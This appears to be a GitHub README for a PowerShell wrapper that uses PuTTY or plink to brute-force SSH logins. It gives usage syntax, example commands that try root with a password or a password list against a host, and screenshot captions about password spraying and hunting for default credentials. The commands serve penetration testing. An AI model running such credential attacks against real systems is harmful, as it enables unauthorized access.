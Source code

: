 # SSH PuTTY login bruteforcer

This repository contains a wrapper script ssh-putty-brute.ps1. This script uses PuTTY clients (either putty.exe or plink.exe) to perform SSH login bruteforce attacks.

See the main article here: https://www.infosecmatter.com/ssh-login-bruteforcer-using-putty-plink/

## Usage and examples

```
import .\ssh-putty-brute.ps1

# Usage:
ssh-putty-brute [-h ip|ips.txt] [-p port] [-u user|users.txt] [-pw pass|pwdlist.txt]

# Examples:
ssh-putty-brute -h 10.10.5.11 -p 22 -u root -pw P@ssw0rd
ssh-putty-brute -h 10.10.5.11 -p 22 -u root -pw (Get-Content .\pwdlist.txt)
```

## Screenshots

SSH login attack against a single target:

![ssh-putty-bruteforce-login-attack-0](https://user-images.githubusercontent.com/60963123/80275175-93e8c500-86f0-11ea-9838-346e68f404b5.png)

SSH password spraying accross the network:

![ssh-putty-bruteforce-login-attack-password-spraying](https://user-images.githubusercontent.com/60963123/80275055-e8d80b80-86ef-11ea-9ada-1fc84ce58f71.png)

Hunting for default SSH credentials:

![ssh-putty-bruteforce-login-attack-full](https://user-images.githubusercontent.com/60963123/80275192-af53d000-86f0-11ea-80bb-e52cdd490753.png)

For more information, visit: https://www.infosecmatter.com/ssh-login-bruteforcer-using-putty-plink/
